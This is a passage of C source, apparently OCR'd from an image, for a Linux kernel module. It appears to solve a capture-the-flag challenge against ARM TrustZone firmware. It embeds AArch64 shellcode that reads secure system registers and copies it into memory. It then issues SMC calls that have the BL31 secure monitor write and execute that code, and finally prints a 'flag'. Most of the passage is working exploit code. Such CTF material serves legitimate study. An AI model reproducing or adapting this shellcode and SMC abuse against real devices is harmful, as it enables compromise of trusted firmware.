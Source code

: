 ```c
        0xA0, 0x47, 0xA8, 0xF2, 0x00, 0x20, 0x98, 0xF2, 0x01, 0xFC,
        0x3B, 0xD5, 0x01, 0x00, 0x00, 0xB9, 0x21, 0xFC, 0x3B, 0xD5,
        0x01, 0x04, 0x00, 0xB9, 0x41, 0xFC, 0x3B, 0xD5, 0x01, 0x08,
        0x00, 0xB9, 0x61, 0xFC, 0x3B, 0xD5, 0x01, 0x0C, 0x00, 0xB9,
        0x81, 0xFC, 0x3B, 0xD5, 0x01, 0x10, 0x00, 0xB9, 0xA1, 0xFC,
        0x3B, 0xD5, 0x01, 0x14, 0x00, 0xB9, 0xC1, 0xFC, 0x3B, 0xD5,
        0x01, 0x18, 0x00, 0xB9, 0xE1, 0xFC, 0x3B, 0xD5, 0x01, 0x1C,
        0x00, 0xB9, 0xC0, 0x03, 0x5F, 0xD6
    };
    /*
        "MOVK X0, #0x423d, LSL #16\n"
        "MOVK X0, #0xc100\n"
        "STR W1, [X0]\n"
        "MRS X1, S3_3_C15_C12_1\n"
        "STR W1, [X0,#4]\n"
        "MRS X1, S3_3_C15_C12_2\n"
        "STR W1, [X0,#8]\n"
        "MRS X1, S3_3_C15_C12_3\n"
        "STR W1, [X0,#0xC]\n"
        "MRS X1, S3_3_C15_C12_4\n"
        "STR W1, [X0,#0x10]\n"
        "MRS X1, S3_3_C15_C12_5\n"
        "STR W1, [X0,#0x14]\n"
        "MRS X1, S3_3_C15_C12_6\n"
        "STR W1, [X0,#0x18]\n"
        "MRS X1, S3_3_C15_C12_7\n"
        "STR W1, [X0,#0x1C]\n"
        "ret\n"
    */
    memcpy((uint8_t *)ns_mem, shellcode, sizeof(shellcode));
    arm_smccc_smc(LOG_SVC_ABWR, SC_RW_ADDR, BL31_NS_MEM, sizeof(shellcode), 0, 0, 0, 0, &res);
    arm_smccc_smc(LOG_SVC_SC, 0, 0, 0, 0, 0, 0, 0, &res);
    pr_info("flag: %s\n", ((uint8_t *)ns_mem)+0x100);

    return 0;
}

static int step1_close(struct inode *inode, struct file *file) {
    pr_info("Step1: Device closed\n");
    return 0;
}

static int step2_close(struct inode *inode, struct file *file) {
    pr_info("Step2: Device closed\n");
    return 0;
}

static const struct file_operations step1_fops = {
    .open = step1_open,
    .release = step1_close,
};

static const struct file_operations step2_fops = {
    .open = step2_open,
    .release = step2_close,
};

static int __init smc_driver_init(void) {
    pr_info("SMC Driver: Initializing the driver\n");

    step1_major_number = register_chrdev(0, DEVICE_NAME1, &step1_fops);
    if (step1_major_number < 0) {
        pr_err("Step1: Failed to register a major number\n");
```